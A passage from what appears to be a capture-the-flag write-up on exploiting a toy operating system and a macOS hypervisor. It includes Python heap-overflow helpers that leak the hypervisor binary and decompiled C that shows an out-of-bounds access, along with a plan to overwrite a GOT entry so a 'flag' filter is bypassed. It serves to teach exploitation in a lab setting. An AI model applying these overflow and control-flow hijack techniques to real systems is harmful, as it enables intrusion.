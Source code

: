To rewrite `values` array, what I did is to allocate chunk with size `0x200` for 6 times, then allocate chunk with size `0x200` with value long enough followed by new pointer in the end that will rewrite `values[0]`, then allocate chunk with size `0x200` to cause overflow.

```python
def allocate_pre(sh):
	sh.recvuntil(ARR)
	for i in xrange(6):
		export(sh, str(i) * l, str(i))

def leak_honcho(sh):
	honcho = 0x1508
	export(sh, str(7) * l, 'A' * (l+1+3) + p16(honcho))
	export(sh, '8' * l, (val_len(l) - (l+1) - 2) * '8' + '$' + '7' * l)
	export(sh, '0' * l, "leak") # rewrite "honcho" global string
	data = cat("honcho")

	f = open("honcho", "wb")
	f.write(data)
	f.close()
```

### Reverse Engineering Hypervisor

After dumping the hypervisor, we found that this is a MacOS executable, which I am not familiar with. This is the first time for me to exploit a MacOS program, and I don't have a MacOS machine either, but fortunately there are MacOS machines in our lab.

The symbols are not stripped which is great, there are many hypervisor stuff which you actually don't need to get into, because the handler of `out` from that simple OS is an obvious switch statement.

The vulnerability is here, out-of-bound access.

```c
case 'c':
  v8 = read(0, (char *)vm_mem + v22, v19);
  hv_vcpu_write_register((unsigned int)vcpu, 2LL, v8);
  break;
case 'd':
  puts((const char *)vm_mem + v22);
  break;
```

Also, I have patched out function `drop_privs`, which is not useful and with this function we need `root` privilege to run the binary, which I don't have in our lab machine.

### Exploit Hypervisor

After some debugger, I found that even if the PIE is enabled, the offset from `vm_mem` to program base is constant. This is great: we can use OOB to leak and rewrite `got` table in the binary and hijack control flow. What I am thinking about is to rewrite `strcasestr` to something that will return `0`, which enables us to read the flag.

```c
case 'f':
  v12 = v3;
  v13 = (char *)vm_mem + v22;
  if ( strcasestr((const char *)vm_mem + v22, "flag") )
  {
    printf("hypervisor blocked read of %s\n", v13);
  }
  else
  {
    v14 = ReadFile(0LL, v13, (__int64 *)&v21);
    write(1, v14, v21);
  }
```